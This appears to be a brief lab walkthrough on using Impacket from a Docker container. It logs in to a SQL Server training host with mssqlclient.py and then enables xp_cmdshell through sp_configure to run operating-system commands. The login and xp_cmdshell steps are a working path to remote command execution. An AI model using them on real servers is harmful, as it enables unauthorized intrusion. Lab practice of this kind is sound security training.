 # Using impacket 

Reference: https://resources.infosecinstitute.com/topic/python-for-network-penetration-testing-hacking-windows-domain-controllers-with-impacket-python-tools/

```docker build -t impacket:latest .```
- builds the docker images using the available docker file

```docker images impacket```
- validate if the image was built

```docker run -it impacket```
- spin up a new container and it gives a shell on the container by default.

```/ #```
- On the container shell, we can type any impacket script name

- Using mssqlclient.py
```mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth```
```/opt/venv/lib/python2.7/site-packages/OpenSSL/crypto.py:14: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography import utils, x509
Impacket v0.9.23.dev1+20210315.121412.a16198c - Copyright 2020 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[-] ERROR(ARCHETYPE): Line 1: Login failed for user 'ARCHETYPE\Guest'.
/ # mssqlclient.py ARCHETYPE\sql_svc@10.10.10.27 -windows-auth
/opt/venv/lib/python2.7/site-packages/OpenSSL/crypto.py:14: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
  from cryptography import utils, x509
Impacket v0.9.23.dev1+20210315.121412.a16198c - Copyright 2020 SecureAuth Corporation

SQL>
```

- In the SQL>, you enter the following commands to enable RCE and xp_cmdshell
```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
```




